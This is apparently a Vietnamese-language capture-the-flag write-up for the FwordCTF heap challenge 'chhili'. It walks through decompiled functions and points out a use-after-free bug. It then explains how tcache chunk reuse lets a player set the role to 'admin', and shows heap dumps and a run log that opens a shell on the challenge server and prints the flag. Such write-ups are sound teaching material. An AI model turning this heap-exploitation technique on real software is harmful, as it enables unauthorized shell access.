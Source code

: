 # Phân tích file.

```c
chhili: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=c4dea7e3aee78d8ebe2eb75f64baba1c51a70e29, for GNU/Linux 3.2.0, not stripped
```

# Reverse file.

- Bài có 5 chức năng chính:

    ```c
    Select an action
    (1) malloc
    (2) free
    (3) edit
    (4) get shell
    (5) exit
    >>
    ```

    - Malloc():

        ```c
        __int64 create()
        {
          __int64 result; // rax
          _DWORD nbytes[3]; // [rsp+4h] [rbp-9Ch] BYREF
          char buf[136]; // [rsp+10h] [rbp-90h] BYREF
          unsigned __int64 v3; // [rsp+98h] [rbp-8h]

          v3 = __readfsqword(0x28u);
          *(_QWORD *)&nbytes[1] = malloc(0x10uLL);
          puts("size : ");
          printf(">> ");
          __isoc99_scanf("%d", nbytes);
          if ( nbytes[0] > 0 && nbytes[0] <= 127 )
          {
            LODWORD(mySize) = nbytes[0];
            puts("data : ");
            printf(">> ");
            read(0, buf, nbytes[0]);
            **(_QWORD **)&nbytes[1] = malloc(nbytes[0]);
            *(_QWORD *)(*(_QWORD *)&nbytes[1] + 8LL) = malloc(0x10uLL);
            strcpy(**(char ***)&nbytes[1], buf);
          }
          result = *(_QWORD *)&nbytes[1];
          myChunk = *(void **)&nbytes[1];
          return result;
        }
        ```

        - Sẽ malloc cho ta 3 chunk, chunk đầu tiên(0x10) là chứa thông tin gồm địa chỉ chứa data và địa chỉ chứa role, chunk thứ 2(size input) là chunk data, chunk thứ 3(0x10) là chunk role.

        ```c
        0x555555559250  0x0000000000000000      0x0000000000000021      ........!.......
        0x555555559260  0x0000555555559280      0x00005555555592a0      ..UUUU....UUUU..
        0x555555559270  0x0000000000000000      0x0000000000000021      ........!.......
        0x555555559280  0x6161616161616161      0x6161616161616161      aaaaaaaaaaaaaaaa
        0x555555559290  0x0000000061616161      0x0000000000000021      aaaa....!.......
        0x5555555592a0  0x0000000000000000      0x0000000000000000      ................
        0x5555555592b0  0x0000000000000000      0x0000000000020d51      ........Q.......         <-- Top chunk
        ```

    - Free():

        ```c
        void delete()
        {
          if ( myChunk )
          {
            free(*(void **)myChunk);
            free(myChunk);
          }
        }
        ```

        - Free chunk data và chunk thông tin, free nhưng không set null ⇒ bug UAF.
    - Edit():

        ```c
        ssize_t edit()
        {
          ssize_t result; // rax

          result = *(_QWORD *)myChunk;
          if ( *(_QWORD *)myChunk )
          {
            puts("data : ");
            printf(">> ");
            result = read(0, *(void **)myChunk, (unsigned int)mySize);
          }
          return result;
        }
        ```

        - Edit phần data của chunk.
    - Get_shell():

        ```c
        int get_shell()
        {
          if ( !myChunk || !*((_QWORD *)myChunk + 1) )
            return puts("You don't have any role");
          if ( !strncmp(*((const char **)myChunk + 1), "admin", 5uLL) )
            return system("/bin/sh");
          return puts("You don't have the permission to get a shell");
        }
        ```

        - Ta sẽ có được shell nếu role ta là admin.
    - Exit():
        - Thoát chương trình.

    # Exploit.

    - Ta thấy khi malloc sẽ luôn có 2 chunk với size cố định là 0x10 cho thông tin và role và khi free sẽ free data và thông tin, ý tưởng sẽ malloc 1 chunk với size của data là 0x14 để sau khi free sẽ vào bin 0x20, lúc này trong bin 0x20 sẽ có sẵn 2 chunk chờ được malloc.

        ```c
        tcachebins
        0x20 [  2]: 0x555555559260 —▸ 0x555555559280 ◂— 0x0
        ```

    - Tcache bin sẽ cấp phát theo LIFO free sau được malloc trước, vậy nếu ta malloc 1 chunk mới với size của data không nằm trong 0x20 thì 2 chunk này sẽ được malloc cho thông tin và role. Lúc này chunk chứa data trong bin sau khi free sẽ được dùng để malloc cho role. Vậy ta chỉ cần dùng bug UAF edit thành "admin" rồi malloc lại thì role sẽ là admin.

        ```c
        0x555555559250  0x0000000000000000      0x0000000000000021      ........!.......
        0x555555559260  0x00005555555592c0      0x0000555555559280      ..UUUU....UUUU..   data va role
        0x555555559270  0x0000000000000000      0x0000000000000021      ........!.......
        0x555555559280  0x00000a6e696d6461      0x0000000000000000      admin...........   role
        0x555555559290  0x0000000061616161      0x0000000000000021      aaaa....!.......
        0x5555555592a0  0x0000000000000000      0x0000000000000000      ................
        0x5555555592b0  0x0000000000000000      0x0000000000000031      ........1.......
        0x5555555592c0  0x6262626262626262      0x6262626262626262      bbbbbbbbbbbbbbbb   data
        0x5555555592d0  0x6262626262626262      0x0000626262626262      bbbbbbbbbbbbbb..
        0x5555555592e0  0x0000000000000000      0x0000000000020d21      ........!.......         <-- Top chunk
        ```

- Vậy lúc này khi role là admin ta chỉ cần get_shell là được.

    ```c
    [+] Opening connection to 40.71.72.198 on port 1234: Done
    [*] '/mnt/c/Users/ADMIN/Desktop/fword/chhilii/chhili'
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    add
    edit
    add
    [*] Switching to interactive mode
    Select an action
    (1) malloc
    (2) free
    (3) edit
    (4) get shell
    (5) exit
    >> FwordCTF{th1s_will_b3_your_f1rSt_st3p_481364972164}
    $
    ```
